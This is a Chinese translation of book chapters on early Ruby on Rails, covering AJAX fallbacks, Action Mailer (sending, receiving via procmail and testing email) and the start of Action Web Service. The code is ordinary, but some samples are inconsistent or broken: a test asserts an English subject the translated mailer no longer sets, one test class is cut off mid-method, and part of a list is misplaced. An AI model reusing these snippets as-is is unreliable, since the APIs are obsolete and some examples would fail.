要为 `link_to_remote` 调用添加标准 HTML 链接支持，只需在调用中添加一个 `:href=>` URL 参数即可。禁用 JavaScript 的浏览器现在将使用标准链接而非 AJAX 调用——如果您希望网站能被视力障碍用户（他们可能会使用专门的浏览器软件）访问，这一点尤为重要。

```erb
<%= link_to_remote("Works without JavaScript, too...",
  { :update => 'mydiv',
    :url    => { :action => :say_hello } },
  { :href   => url_for( :action => :say_hello ) } ) %>
```

对于调用 `form_remote_tag()` 来说，这并非必需，因为它会自动向表单添加一个传统的 `action=` 选项，该选项调用由 `:url` 参数指定的操作。如果启用了 JavaScript，则会使用 AJAX 调用；否则将生成传统的 HTTP POST。如果您希望根据 JavaScript 是否启用而执行不同的操作，请添加一个 `:html=>{:action => URL, :method => 'post' }` 参数。例如，下面的表单在 JavaScript 启用时将调用 `guess` 操作，否则调用 `post_guess` 操作。

```erb
<%= form_remote_tag(
    :update => "update_div",
    :url     => { :action => :guess },
    :html    => {
        :action => url_for( :action => :post_guess ),
        :method => 'post' } ) %>
  <% # ... %>
<%= end_form_tag %>
```

当然，这并不能免除您额外的功课：您需要特别注意渲染的内容以及渲染的位置。您的操作必须了解它们被调用的方式并据此采取行动。

### 返回按钮之忧

根据定义，浏览器的返回按钮将跳回上一个整体渲染的页面（这主要通过 *标准 HTML 链接* 实现）。

在设计应用程序的屏幕流程时，您应考虑到这一点。考虑页面对象的分组。父对象及其子对象通常属于一个逻辑组，而一组父对象通常位于不相交的组中。在组间导航时使用非 AJAX 链接，而在组内仅使用 AJAX 功能，这是一个好主意。例如，从博客的起始页面跳转到一篇文章时，您可能希望使用普通链接（这样返回按钮会跳回起始页面），而在评论文章时使用 AJAX。¹³

### Web V2.1

AJAX 领域正在迅速变化，而 Rails 处于前沿。这使得在书中产生权威文档变得困难——即使在本书印刷期间，相关库也已经向前发展了。

请密切关注 Rails 及其 AJAX 支持的更新。在我撰写本文时，我们看到 Rails 开始支持自动完成文本字段（类似 Google Suggest）、带有进度信息的文件上传、拖放支持、用户可在屏幕上重新排列元素的列表等等。

Thomas Fuchs 的网站 [http://script.aculo.us/](http://script.aculo.us/) 是查看更新（并体验一些酷炫效果）的好地方。

> ¹³实际上，流行的基于 Rails 的博客软件 Typo 正是这样做的。请查看 [http://typo.leetsoft.com/](http://typo.leetsoft.com/)。

# 第 21 章

# Action Mailer

Action Mailer 是一个简单的 Rails 组件，允许您的应用程序发送和接收电子邮件。使用 Action Mailer，您的在线商店可以发送订单确认，您的问题跟踪系统可以自动记录提交到特定电子邮件地址的问题。

## 21.1 发送电子邮件

在开始发送电子邮件之前，您需要配置 Action Mailer。其默认配置在某些主机上有效，但您仍希望创建自己的配置，以便将其明确作为应用程序的一部分。

### 电子邮件配置

电子邮件配置是 Rails 应用程序环境的一部分。如果您希望在开发、测试和生产环境使用相同的配置，请将配置添加到 `config` 目录下的 `environment.rb` 文件中；否则，请将不同的配置添加到 `config/environments` 目录下的相应文件中。

首先，您必须决定如何递送邮件。

```ruby
ActionMailer::Base.delivery_method = :smtp | :sendmail | :test
```

`:test` 设置非常适合单元和功能测试。邮件不会被递送，而是会追加到一个数组中（可通过 `ActionMailer::Base.deliveries` 访问）。这是测试环境中的默认递送方式。

`:sendmail` 设置将邮件递送委托给您本地系统的 `sendmail` 程序，该程序假定位于 `/usr/sbin`。这种递送机制可移植性不强，因为 sendmail 并非总是在不同操作系统的此目录中安装。它还依赖于您本地的 sendmail 支持 `-i` 和 `-t` 命令选项。


通过将此选项保留为其默认值`:smtp`，您可以获得更好的可移植性。但是，如果您这样做，则还需要指定一些额外的配置，以告诉`Action Mailer`在哪里找到`SMTP`服务器来处理您的传出邮件。这可能是运行您 Web 应用程序的机器，也可能是一台单独的机器（如果在非公司环境中运行 Rails，可能是您的 ISP 提供的）。您的系统管理员将能够为您提供这些参数的设置。您也可以从您自己的邮件客户端配置中确定它们。

```ruby
ActionMailer::Base.server_settings = {
  :address         => "domain.of.smtp.host.net",
  :port            => 25,
  :domain          => "domain.of.sender.net",
  :authentication  => :login,
  :user_name       => "dave",
  :password        => "secret",
}
```

- `:address =>` 和`:port =>`：确定您将使用的 SMTP 服务器的地址和端口。它们分别默认为`localhost`和`25`。
- `:domain =>`：邮件程序在向服务器自我标识时应使用的域。这称为 HELO 域（因为 HELO 是客户端发送给服务器以启动连接的命令）。您通常应使用发送邮件的机器的顶级域名，但这取决于您的 SMTP 服务器设置（有些不检查，有些则检查以减少垃圾邮件和所谓的开放中继问题）。
- `:authentication =>`：可以是`:plain`、`:login`或`:cram_md5`。您的服务器管理员将帮助选择正确的选项。目前无法从 Rails 使用 TLS（SSL）连接到邮件服务器。如果您的服务器不需要认证，则应省略此参数。
- `:user_name =>` 和`:password =>`：如果设置了`:authentication`，则为必填项。

无论选择何种递送机制，其他配置选项都适用。

```ruby
ActionMailer::Base.perform_deliveries = true | false
```

如果`perform_deliveries`为`true`（默认值），邮件将正常递送。如果为`false`，递送邮件的请求将被静默忽略。这在测试时禁用电子邮件可能很有用。

```ruby
ActionMailer::Base.raise_delivery_errors = true | false
```

如果`raise_delivery_errors`为`true`（默认值），最初发送电子邮件时发生的任何错误都将引发异常并返回到您的应用程序。如果为`false`，错误将被忽略。请记住，并非所有电子邮件错误都是立即发生的——邮件可能在您发送四天后退信，而您的应用程序（您希望）届时已经向前推进了。

```ruby
ActionMailer::Base.default_charset = "utf-8"
```

用于新电子邮件的字符集。

### 发送电子邮件

现在我们已经配置好了一切，让我们编写一些代码来发送电子邮件。

到目前为止，Rails 有一个用于创建邮件程序的生成器脚本，您不应该感到惊讶。可能令人惊讶的是它在哪里创建邮件程序。在 Rails 中，邮件程序是一个存储在`app/models`目录中的类。它包含一个或多个方法，每个方法对应一个电子邮件模板。为了创建电子邮件的正文，这些方法又使用视图（与控制器操作使用视图来创建 HTML 和 XML 的方式完全相同）。因此，让我们为我们的商店应用程序创建一个邮件程序。我们将用它来发送两种不同类型的电子邮件：一种在下订单时发送，另一种在订单发货时发送。`generate mailer`脚本接受邮件程序类的名称以及电子邮件操作方法的名称。

```
depot> ruby script/generate mailer OrderMailer confirm sent
exists  app/models/
create  app/views/order_mailer
exists  test/unit/
create  test/fixtures/order_mailers
create  app/models/order_mailer.rb
create  test/unit/order_mailer_test.rb
create  app/views/order_mailer/confirm.rhtml
create  test/fixtures/order_mailers/confirm
create  app/views/order_mailer/sent.rhtml
create  test/fixtures/order_mailers/sent
```

请注意，我们已在`app/models`中创建了一个`OrderMailer`类，并在`app/views/order_mailer`中为每种电子邮件类型创建了一个模板文件。（我们还创建了许多与测试相关的文件——我们将在第 [21.3](mailto:21.3) 节*测试电子邮件*，第 [489](mailto:489) 页中探讨这些文件。）

邮件器（mailer）类中的每个方法负责为发送特定电子邮件设置环境。它通过设置包含电子邮件标题和正文数据的实例变量来完成此操作。在深入了解细节之前，让我们先看一个例子。以下是为我们的`OrderMailer`类生成的代码。

```ruby
class OrderMailer < ActionMailer::Base
  def confirm(sent_at = Time.now)
    @subject    = 'OrderMailer#confirm'
    @recipients = ''
    @from       = ''
    @sent_on    = sent_at
    @headers    = {}
    @body       = {}
  end

  def sent(sent_at = Time.now)
    @subject    = 'OrderMailer#sent'
    # ... 同上 ...
  end
end
```

除了我们稍后将讨论的`@body`之外，所有这些实例变量都设置了要创建的电子邮件的信封和标题：

- `@bcc` = 数组或字符串

  密送收件人，使用与`@recipients`相同的格式。

- `@cc` = 数组或字符串

  抄送收件人，使用与`@recipients`相同的格式。

- `@charset` = 字符串

  电子邮件`Content-Type:`标头中使用的字符集。默认为`server_settings`中的`default_charset`属性，或`"utf-8"`。

- `@from` = 数组或字符串

  出现在`From:`行上的一个或多个电子邮件地址，使用与`@recipients`相同的格式。你可能希望这些地址使用与你在`server_settings`中配置的域名相同的域名。

- `@headers` = 哈希

  一个包含标头名称/值对的哈希，用于向电子邮件添加任意标头行。

- `@recipients` = 数组或字符串

  收件人的一个或多个电子邮件地址。可以是简单地址，如`dave@pragprog.com`，或后面跟有尖括号内电子邮件地址的标识短语。

  ```ruby
  @recipients = [ "andy@pragprog.com",
               "Dave Thomas <dave@pragprog.com>" ]
  ```

- `@sent_on` = 时间

  一个设置电子邮件`Date:`标头的`Time`对象。如果未指定，将使用当前日期和时间。

- `@subject` = 字符串

  电子邮件的主题行。

`@body`是一个哈希，用于将值传递给包含电子邮件的模板。我们很快就会看到它是如何工作的。

### 电子邮件模板

`generate`脚本在`app/views/order_mailer`中创建了两个电子邮件模板，每个`OrderMailer`类中的 action 对应一个。这些是普通的`ERb` `.rhtml`文件。我们将使用它们来创建纯文本电子邮件（我们稍后会看到如何创建 HTML 电子邮件）。与我们用于创建应用程序网页的模板一样，这些文件包含静态文本和动态内容的组合。以下是`confirm.rhtml`中用于确认电子邮件的模板。

```text
下载 e1/mailer/app/views/order_mailer/confirm.rhtml

亲爱的 <%= @order.name %>

感谢您最近从实用软件商店（The Pragmatic Store）的订单。

您订购了以下商品：

<%= render(:partial => "./line_item", :collection => @order.line_items) %>

当您的订单发货时，我们将向您发送一封单独的电子邮件。
```

这个模板有一个小细节。我们必须给`render()`提供模板的明确路径（前导的`./`），因为我们不是在真正的控制器中调用视图，而 Rails 无法猜测默认位置。

用于渲染行项目的 partial 模板格式化了一行，包含项目数量和标题。因为我们在模板中，所以所有常规的辅助方法（如`truncate()`）都可用。

```erb
<%= sprintf("%2d x %s",
                     line_item.quantity,
                     truncate(line_item.product.title, 50)) %>
```

现在我们必须返回去填充`OrderMailer`类中的`confirm()`方法。

```ruby
class OrderMailer < ActionMailer::Base

  def confirm(order)
    @subject         = "实用软件商店订单确认"
    @recipients      = order.email
    @from            = 'orders@pragprog.com'
    @body["order"] = order
  end
end
```

现在我们可以看到`@body`哈希的作用了：设置到其中的值在模板中作为实例变量可用。在这种情况下，`order`对象将被存储到`@order`中。

### 生成电子邮件

既然我们已经设置了模板并定义了邮件器方法，就可以在常规控制器中使用它们来创建和/或发送电子邮件了。然而，我们并不直接调用该方法。这是因为在 Rails 中有两种不同的方式可以创建电子邮件：你可以将电子邮件创建为一个对象，或者你可以将电子邮件发送给其收件人。为了访问这些功能，我们调用名为`create_xxx`和`deliver_xxx`的类方法，其中`xxx`是我们在`OrderMailer`中编写的实例方法的名称。我们向这些类方法传递我们希望实例方法接收的参数。例如，要发送订单确认电子邮件，我们可以调用：

```ruby
OrderMailer.deliver_confirm(order)
```

为了在不实际发送任何电子邮件的情况下进行实验，我们可以编写一个简单的 action，创建一个电子邮件并在浏览器窗口中显示其内容。

```ruby
class TestController < ApplicationController

  def create_order
    order = Order.find_by_name("Dave Thomas")
    email = OrderMailer.create_confirm(order)
    render(:text => "<pre>" + email.encoded + "</pre>")
  end
end
```

`create_confirm()`调用我们的`confirm()`实例方法来设置电子邮件的详细信息。我们的模板用于生成正文文本。正文连同头信息一起被添加到一个新的电子邮件对象中，`create_confirm()`返回该对象。该对象是`TMail::Mail`类的一个实例。¹ `email.encoded()`调用返回我们刚刚创建的电子邮件的文本：我们的浏览器将显示类似以下的内容：

```text
日期: 2005年4月29日 星期五 08:11:38 -0500
发件人: orders@pragprog.com
收件人: dave@pragprog.com
主题: 实用软件商店订单确认
内容类型: text/plain; charset=utf-8

亲爱的 Dave Thomas

感谢您最近从实用软件商店的订单。

您订购了以下商品：

  1 x 编程 Ruby，第2版
  2 x 实用项目自动化

当您的订单发货时，我们将向您发送一封单独的电子邮件。
```

如果我们想发送电子邮件，而不仅仅是创建一个电子邮件对象，我们可以调用`OrderMailer.deliver_confirm(order)`。

### 发送 HTML 格式的电子邮件

创建 HTML 电子邮件最简单的方法是创建一个为电子邮件正文生成 HTML 的模板，然后在发送消息之前将`TMail::Mail`对象上的内容类型设置为`text/html`。

我们将从实现`OrderMailer`中的`sent()`方法开始。（实际上，这个方法和原始的`confirm()`方法之间有如此多的共性，我们可能会将两者重构为使用一个共享的辅助方法。）

```ruby
下载 e1/mailer/app/models/order_mailer.rb
class OrderMailer < ActionMailer::Base
  def sent(order)
    @subject    = "实用订单已发货"
    @recipients = order.email
    @from       = 'orders@pragprog.com'
    @body["order"] = order
  end
end
```

接下来，我们将编写`sent.rhtml`模板。

```erb
<h3>实用订单已发货</h3>

<p>
  这只是想通知您，我们已经发出了您最近的订单：
</p>

<table>
  <tr><th>数量</th><th></th><th>描述</th></tr>

  <%= render(:partial => "./html_line_item", :collection => @order.line_items) %>

</table>
```

我们需要一个新的 partial 模板来生成表格行。它放在文件`_html_line_item.rhtml`中。

```erb
<tr>
  <td><%= html_line_item.quantity %></td>
  <td>&times;</td>
  <td><%= html_line_item.product.title %></td>
</tr>
```

最后，我们将使用一个 action 方法来测试它，该方法渲染电子邮件，将内容类型设置为`text/html`，并调用邮件器来发送它。

```ruby
class TestController < ApplicationController
  def ship_order
    order = Order.find_by_name("Dave Thomas")
    email = OrderMailer.create_sent(order)
    email.set_content_type("text/html")
    OrderMailer.deliver(email)
    render(:text => "谢谢...")
  end
end
```

生成的电子邮件将类似于下一页的图 21.1。

> ¹TMail 是 Minero Aoki 的优秀电子邮件库；Rails 自带一个版本。



## 21.2 接收电子邮件

Action Mailer 使得编写处理传入电子邮件的 Rails 应用程序变得简单。不过，你也需要找到一种方法，将适当的电子邮件从服务器环境中获取并注入到应用程序中；这需要做更多的工作。

处理电子邮件的简单部分是在你的应用程序中。在你的`Action Mailer`类中，编写一个名为`receive()`的实例方法，它接受一个参数。这个参数将是一个对应于传入电子邮件的`TMail::Mail`对象。你可以提取字段、正文文本和/或附件，并在你的应用程序中使用它们。

例如，一个错误跟踪系统可能通过电子邮件接受故障工单。从每封电子邮件中，它会构建一个包含基本工单信息的`Ticket`模型对象。如果电子邮件包含附件，每个附件将被复制到一个新的`TicketCollateral`对象中，该对象与新的工单相关联。


```ruby
class IncomingTicketHandler < ActionMailer::Base

  def receive(email)
    ticket = Ticket.new
    ticket.from_email = email.from[0]
    ticket.initial_report = email.body
    if email.has_attachments?
      email.attachments.each do |attachment|
        collateral = TicketCollateral.new(
          :name => attachment.original_filename,
          :body => attachment.read)
        ticket.ticket_collaterals << collateral
      end
    end
    ticket.save
  end
end
```

所以现在我们面临的问题是如何将服务器计算机接收到的电子邮件送入`IncomingTicketHandler`的`receive()`实例方法。这个问题实际上是两个问题的合体：首先，我们必须安排拦截符合某种条件的电子邮件，然后，我们必须将这些电子邮件送入我们的应用程序。

如果你可以控制邮件服务器的配置（例如，基于 Unix 系统的 Postfix 或 sendmail 安装），你或许能够安排在接收发送到特定邮箱或虚拟主机的电子邮件时运行一个脚本。然而，邮件系统很复杂，我们没有篇幅在这里讨论所有可能的配置排列组合。Ruby 开发 Wiki 上有一篇很好的介绍文章：[http://wiki.rubyonrails.com/rails/show/HowToReceiveEmailsWithActionMailer](http://wiki.rubyonrails.com/rails/show/HowToReceiveEmailsWithActionMailer)。

如果你没有这种系统级访问权限，但你使用的是 Unix 系统，你可以通过在用户级别的`.procmailrc`文件中添加一条规则来拦截电子邮件。我们稍后会看到一个这样的例子。

拦截传入电子邮件的目标是将其传递给我们的应用程序。为此，我们使用 Rails runner 工具。这允许我们在不经过 Web 的情况下，在应用程序的代码库中调用代码。相反，`runner`在一个单独的进程中加载应用程序，并调用我们在应用程序中指定的代码。

所有拦截传入电子邮件的正常技术最终都会运行一个命令，并将该电子邮件的内容作为标准输入传递给该命令。如果我们让 Rails runner 脚本成为每当电子邮件到达时被调用的命令，我们就可以安排将该电子邮件送入我们应用程序的电子邮件处理代码中。例如，使用基于 procmail 的拦截，我们可以编写一个看起来类似于以下示例的规则。使用 procmail 晦涩的语法，这个规则会将任何主题行包含 `"Bug Report"` 的传入电子邮件通过我们的 runner 脚本复制。

```bash
RUBY=/Users/dave/ruby1.8/bin/ruby
TICKET_APP_DIR=/Users/dave/Work/BS2/titles/RAILS/Book/code/e1/mailer
HANDLER='IncomingTicketHandler.receive(STDIN.read)'

:0 c
* ^Subject:.*Bug Report.*
| cd $TICKET_APP_DIR && $RUBY script/runner $HANDLER
```

`receive()`类方法对所有 Action Mailer 类都可用。它接受作为参数传递的电子邮件文本，将其解析为一个 TMail 对象，创建一个新的接收器类的实例，并将 TMail 对象传递给该类中的`receive()`实例方法。这就是我们在第 487 页编写的方法。最终结果是，从外部世界收到的电子邮件最终会创建一个 Rails 模型对象，该对象继而在数据库中存储一个新的故障工单。

## 21.3 测试电子邮件

电子邮件测试有两个层级。在单元测试层级，你可以验证你的 Action Mailer 类是否正确生成了电子邮件。在功能层级，你可以测试你的应用程序是否在预期的时候发送了这些电子邮件。

### 单元测试电子邮件

当我们使用`generate`脚本创建订单邮件器时，它自动在应用程序的`test/unit`目录中构建了一个相应的`order_mailer_test.rb`文件。如果你查看这个文件，你会看到它相当复杂。这是因为它试图安排事情，以便你可以从夹具文件中读取电子邮件的预期内容，并将此内容与邮件器类生成的电子邮件进行比较。然而，这是一种相当脆弱的测试。每次你更改用于生成电子邮件的模板时，你都需要更改相应的夹具。

如果电子邮件内容的精确测试对你很重要，那么请使用预生成的测试类。在`test/fixtures`目录下创建一个以测试命名的子目录（因此我们的 OrderMailer 夹具将在`test/fixtures/order_mailer`中），并在其中创建预期内容。使用生成的代码中包含的`read_fixture()`方法来读取特定的夹具文件，并将其与你的模型生成的电子邮件进行比较。

然而，我更喜欢一些更简单的方法。就像我不测试由模板生成的网页的每一个字节一样，我通常也不会费心测试生成的电子邮件的全部内容。相反，我测试可能出错的部分：动态内容。这简化了单元测试代码，并使其对模板的微小更改更具弹性。这是一个典型的电子邮件单元测试。

```ruby
require File.dirname(__FILE__) + '/../test_helper'
require 'order_mailer'

class OrderMailerTest < Test::Unit::TestCase

  def setup
    @order = Order.new(:name => "Dave Thomas", :email => "dave@pragprog.com")
  end

  def test_confirm
    response = OrderMailer.create_confirm(@order)
    assert_equal("Pragmatic Store Order Confirmation", response.subject)
    assert_equal("dave@pragprog.com", response.to[0])
    assert_match(/Dear Dave Thomas/, response.body)
  end
end
```

`setup()`方法为邮件发送器创建一个订单对象以供使用。在测试方法中，我们让邮件类创建（但不发送）一封电子邮件，我们使用断言来验证动态内容是否是我们预期的。注意使用了`assert_match()`来验证正文内容的一部分。

### 电子邮件功能测试

现在我们知道可以为订单创建电子邮件了，我们想确保我们的应用程序在正确的时间发送正确的电子邮件。这是功能测试的工作。

让我们从为应用程序生成一个新的控制器开始。

`depot> ruby script/generate controller Order confirm`

我们将实现单个操作`confirm`，它为新订单发送确认电子邮件。

```ruby
class OrderController < ApplicationController

  def confirm
    order = Order.find(params[:id])
    OrderMailer.deliver_confirm(order)
    redirect_to(:action => :index)
  end

end
```

我们在第 194 页的第 13.3 节“控制器的功能测试”中看到了 Rails 如何为生成的控制器构建存根功能测试。

我们将添加我们的邮件测试到这个生成的测试中。

Action Mailer 在测试环境中不会发送电子邮件。相反，它将它生成的每封电子邮件附加到一个数组`ActionMailer::Base.deliveries`中。我们将使用这个数组来获取控制器生成的电子邮件。我们将在生成的测试的`setup()`方法中添加几行代码。一行将这个数组别名为更易管理的名称`@emails`。另一行在每次测试开始时清空该数组。

```ruby
@emails = ActionMailer::Base.deliveries
@emails.clear
```

我们还需要一个包含示例订单的夹具。我们将在`test/fixtures`目录中创建一个名为`orders.yml`的文件。

```yaml
daves_order:
  id: 1
  name: Dave Thomas
  address: 123 Main St
  email: dave@pragprog.com
```

现在我们可以为我们的操作编写测试了。这是测试类的完整源代码。

```ruby
require File.dirname(__FILE__) + '/../test_helper'
require 'order_controller'

### Re-raise errors caught by the controller.
class OrderController; def rescue_action(e) raise e end; end

class OrderControllerTest < Test::Unit::TestCase
  fixtures :orders

  def setup
    @controller = OrderController.new
    @request    = ActionController::TestRequest.new
    @response   = ActionController::TestResponse.new

    @emails = ActionMailer::Base.deliveries
    @emails.clear
  end

  def test_confirm
    get(:confirm, :id => @daves_order.id)
    assert_redirected_to(:action => :index)
    assert_equal(1, @emails.size)
```

它使用`@emails`别名来访问 Action Mailer 自测试开始运行以来生成的电子邮件数组。在确认列表中正好有一封邮件后，它会验证内容是否符合预期。

我们可以使用`rake`的`test_functional`目标或直接执行脚本来运行此测试。

```text
depot> ruby test/functional/order_controller_test.rb
```

Leon Breedt 是本章及 Action Web Service 代码的作者，他是一名分析师/开发者，最初来自南非的开普敦。

# 第 22 章

## Rails 上的 Web 服务

随着 *Depot* 应用程序的启动和运行，我们可能希望让其他开发者编写自己的应用程序，通过标准 Web 服务协议与之通信。为此，我们需要熟悉 Action Web Service（从现在起我们称之为 AWS）。

在本章中，我们将讨论 AWS 的结构。我们将了解如何声明 API、编写实现代码，然后通过为其编写测试来确保其正常工作。

## 22.1 AWS 是什么（以及不是什么）

AWS 在我们的 Rails 应用程序中处理 SOAP 和 XML-RPC 协议的服务器端支持。它将传入的方法调用请求转换为对 Web 服务的方法调用，并负责发送回响应。这使我们可以专注于编写特定于应用程序的方法来处理请求。

AWS 并未尝试实现 SOAP 和 WSDL 的 W3C 规范的每个方面，或提供 XML-RPC 的所有可能功能。相反，它专注于我们合理预期在 Web 服务中经常使用的功能。

- 任意嵌套的结构化类型
- 带类型的数组
- 当 Web 服务方法抛出异常时，通过网络发送异常和堆栈跟踪

> 仅为 Leonardo Augusto Pires 独家准备

Action Web Service 让我们能够宽松地接受远程调用者输入的值，并在输出时保持严格，^1 通过强制输入和输出值转换为正确的类型。

使用 Action Web Service，我们可以：

- 为 Rails 博客应用程序添加对 Blogger 或 metaWeblog API 的支持；
- 实现我们自己的自定义 API，并让 .NET 开发者能够从 Action Web Service 生成的 WSDL 生成一个类来使用它；以及
- 使用相同的代码同时支持 SOAP 和 XML-RPC 后端。

## 22.2 API 定义

创建 Web 服务应用程序的第一步是决定我们要向远程调用者提供的功能，以及要向他们暴露多少信息。

理想情况下，只需编写一个实现此功能的类并使其可供调用就足够了。但是，当我们希望与不像 Ruby 那样动态的语言进行互操作时，这会导致问题。Ruby 方法可以返回任何类型的对象。这可能导致当远程调用者收到他们没有预料到的内容时，事情会戏剧性地出错。

AWS 通过执行类型强制转换来处理此问题。如果方法参数或返回值的类型不正确，AWS 会尝试转换它。这使远程调用者感到满意，同时也使我们不必费力地将输入参数转换为正确的类型，以防远程调用者发送给我们错误的值，例如用字符串代替合适的整数。

由于 Ruby 无法使用方法定义来确定预期的方法参数类型和返回值类型，我们必须通过创建一个 *API 定义*类来帮助它。可以将 API 定义类视为类似于 Java 或 C# 接口：它不包含实现代码，也无法实例化。它只是描述 API。

说够了，让我们看一个例子。我们将使用生成器来开始。我们将创建一个包含两个方法的 Web 服务：一个用于返回所有产品列表，另一个用于返回特定产品的详细信息。

> ^1 改编自 Jon Postel（以及后来的 Larry Wall）。

```text
depot> ruby script/generate web_service Backend find_all_products find_product_by_id
exists  app/apis/
exists  test/functional/
create  app/apis/backend_api.rb
create  app/controllers/backend_controller.rb
create  test/functional/backend_api_test.rb
```

这会生成一个存根 API 定义。

```ruby
class BackendApi < ActionWebService::API::Base
  api_method :find_all_products
  api_method :find_product_by_id
end
```

并且它会生成一个骨架控制器。

```ruby
class BackendController < ApplicationController
  wsdl_service_name 'Backend'

  def find_all_products
  end

  def find_product_by_id
  end
end
```

它还会生成一个示例功能测试，我们将在第 22.6 节“测试 Web 服务”（第 506 页）中介绍。

我们需要完成 API 定义。我们将把它的名称更改为`ProductApi`，文件名更改为`app/apis/product_api.rb`。

```ruby
class ProductApi < ActionWebService::API::Base

  api_method :find_all_products,
             :returns => [[:int]]

  api_method :find_product_by_id,
             :expects => [:int],
             :returns => [Product]

end
```

由于我们更改了 API 定义的名称，因此自动加载 API 定义`BackendApi`（因为它与控制器共享前缀）将不再有效。因此，我们将添加一个`web_service_api()`调用到控制器以显式地将其附加到控制器。我们还向方法体添加了一些代码，并使签名与 API 匹配。

```ruby
Download el/depot_ws/app/controllers/backend_controller.rb
class BackendController < ApplicationController
  wsdl_service_name 'Backend'

  web_service_api ProductApi
  web_service_scaffold :invoke

  def find_all_products
    Product.find(:all).map{ |product| product.id }
  end

  def find_product_by_id(id)
    Product.find(id)
  end
end
```

上述示例控制器中有几个重要的点可能不是立即显而易见的。`wsdl_service_name()`方法将一个名称与将在生成的 Web 服务定义语言（WSDL）中使用的服务相关联。这不是必需的，但建议设置它。`web_service_scaffold()`调用类似于标准的 Action Pack 脚手架。这提供了一种在开发期间从 Web 浏览器执行 Web 服务方法的方法，这是我们在生产环境中希望移除的。

既然我们已经实现了服务，并且脚手架也已到位，我们可以通过导航到脚手架操作（我们在上面将它的名称作为第一个参数传递给了`web_service_scaffold()`）来测试它。图 22.1（下一页）显示了在浏览器中导航到脚手架的结果。

### 方法签名


AWS API 声明使用`api_method()`来声明 Web 服务接口中的每个方法。这些声明使用签名来指定方法的调用约定和返回类型。

签名是一个包含一个或多个参数说明符的数组。参数说明符告诉 AWS 对应参数应该是什么类型的值，以及可选的参数名称。

`api_method()`接受`:expects`和`:returns`选项来指定签名。`:expects`选项指明我们方法每个参数的类型（以及可选的名称）。`:returns`选项给出方法返回值的类型。

如果我们省略`:expects`，当远程调用者尝试提供参数时，AWS 会引发错误。如果我们省略`:returns`，AWS 将丢弃方法的返回值，不向调用者返回任何内容。任一选项的存在都会导致 AWS 执行类型转换以确保以下情况：

- 在方法执行时，方法输入参数是正确的类型。
- 在将方法体返回的值返回给远程调用者之前，该值是正确的类型。

### 参数说明符的格式

参数说明符是以下之一：

- 一个标识 Action Web Service 基本类型之一的符号或字符串。
- 自定义结构化类型的 `Class` 对象（例如`ActionWebService::Struct`或`ActiveRecord::Base`；参见第 22.2 节“结构化参数”）。

### 参数名

请注意，在`ProductApi`示例的`:expects`签名中，我们没有为方法参数命名。在`:expects`中为参数命名并非必须，但如果没有名称，生成的 WSDL 将不会包含描述性的参数名，这会降低其对外部开发者的可用性。

- 包含一个来自前述第 1 项或第 2 项的项的单元素数组。
- 一个单元素哈希，其键是参数名，值为前述第 1 项、第 2 项或第 3 项之一。

例如，以下是有效的签名：

`[:string]`

一个字符串数组参数。

`[:bool]`

一个布尔参数。

`[Person]`

一个`Person`结构类型参数。

`[{:lastname=>:string}]`

一个字符串参数，在生成的 WSDL 中名称为`lastname`。

`[:int, :int]`

两个整数参数。

### 基本参数类型

对于像数字、字符串、布尔值、日期和时间这样的简单类型，AWS 定义了一组名称，可以在签名中用来指代这些类型，而不是使用可能具有歧义的 `Class` 对象。

我们可以使用符号或对应的字符串作为参数说明符。

`:int`

一个整数参数。

`:string`

一个字符串值。

`:base64`

使用此类型接收二进制数据。当远程调用者使用协议的 Base64 类型提供一个值，并且签名中使用了`:base64`，该值在我们的方法看到它之前会被解码为二进制。

`:bool`

一个布尔值。

`:float`

一个浮点数。

`:time`

一个时间戳值，包含日期和时间。强制转换为 Ruby 的`Time`类型。

`:datetime`

一个时间戳值，包含日期和时间。强制转换为 Ruby 的`DateTime`类型。

`:date`

一个日期值，仅包含日期。强制转换为 Ruby 的`Date`类型。

### 结构化参数类型

除了基本类型，AWS 允许我们在签名中使用`ActionWebService::Struct`或`ActiveRecord::Base`的`Class`对象。使用这些可以让外部开发者在访问我们的 Web 服务时，使用其平台的原生结构类型。那么，远程调用者看到的结构化类型中放入了什么呢？对于`ActionWebService::Struct`，是使用`member()`定义的所有成员。

```ruby
class Person < ActionWebService::Struct
  member :id, :int
  member :name, :string
end
```

`ActiveRecord::Base`的派生类会暴露其对应数据库表中定义的列。

## 22.3 分发模式

远程调用者将他们的调用请求发送到*端点 URL*。（有关端点 URL 的格式，请参见第 22.6 节“外部客户端应用程序（XML-RPC）”，第 507 页。）分发是 AWS 将这些传入请求映射到实现服务的对象中的方法的过程。

默认的分发模式是*直接分发*，无需额外配置即可设置。这就是我们在第 494 页示例中使用的模式。

### 直接分发

在直接分发中，API 定义直接附加到控制器，API 方法实现作为公共实例方法放置在控制器中。

这种方法的优点是简单。缺点是只能将一个 API 定义附加到控制器；因此，对于一个唯一的端点 URL，我们只能有一个 API 实现。它还模糊了模型和控制器代码的分离。如图 22.2 所示。

### 分层分发

分层分发允许我们使用一个控制器实现多个 API，并为所有 API 使用一个唯一的端点 URL。这对于重叠的基于 XML-RPC 的 API（如各种博客 API）非常适用，这些 API 的桌面客户端应用程序仅支持一个端点 URL。如图 22.3 所示。

### 委托分发

委托分发与分层分发相同，不同之处在于它为每个包含的 API 使用唯一的端点 URL。远程调用者不是将 API 标识符嵌入到方法调用消息中，而是将特定 API 的消息发送到其关联的端点 URI。

> ### 从远程调用者角度看分层分发
>
> 来自远程调用者的方法调用请求通过发送一个标识符来区分 API，该标识符表明方法调用应指向哪个 API。
>
> 对于 XML-RPC，远程调用者使用标准的 XML-RPC`serviceName.methodName`惯例，其中`serviceName`是标识符。例如，XML-RPC 消息中名为`blogger.newPost`的方法将被发送到声明实现`blogger`服务的对象中的`newPost()`方法。
>
> 对于 SOAP，此信息在生成的 WSDL 所声明的`SOAPAction` HTTP 头中编码。这意味着，位于剥离此 HTTP 头的代理后面的远程调用者将无法调用使用分层分发的 Web 服务。

我们在控制器中使用`web_service_dispatching_mode()`方法来选择该控制器的分发模式。

```ruby
class RpcController < ActionController::Base
  web_service_dispatching_mode :layered
end
```

有效的模式是`:direct`、`:layered`和`:delegated`。

## 22.4 使用替代分发

既然我们已经在第一个示例 Web 服务中使用了直接分发，那么让我们用另一种模式来实现相同的 Web 服务。

### 分层分发模式

